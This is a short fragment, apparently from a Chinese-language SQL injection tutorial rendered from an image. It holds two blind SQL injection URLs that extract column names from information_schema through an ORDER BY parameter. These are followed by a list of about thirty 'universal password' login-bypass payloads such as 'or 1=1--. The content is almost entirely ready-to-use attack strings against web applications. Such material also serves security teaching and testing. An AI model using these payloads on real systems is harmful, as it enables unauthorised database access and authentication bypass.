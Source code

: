 ```
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```

### 登陆框的注入

万能密码基本大家都用过，各种各样的，如下

```
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--
'|0#
```

